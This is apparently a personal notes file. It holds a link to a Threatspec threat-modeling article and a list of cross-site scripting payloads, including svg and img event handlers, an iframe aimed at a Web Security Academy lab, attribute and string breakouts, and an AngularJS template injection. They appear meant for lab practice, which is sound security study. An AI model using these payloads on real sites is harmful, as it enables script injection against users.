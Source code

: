 # Notes
Threatspec  -- https://onehack.us/t/threatspec-continuous-threat-modeling-through-code/174377


"><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
"onmouseover="alert(1)
javascript:alert(1)
'-alert(1)-'
 "></select><img%20src=1%20onerror=alert(1)>
{{$on.constructor('alert(1)')()}}

\"-alert(1)}//
<><img src=1 onerror=alert(1)>
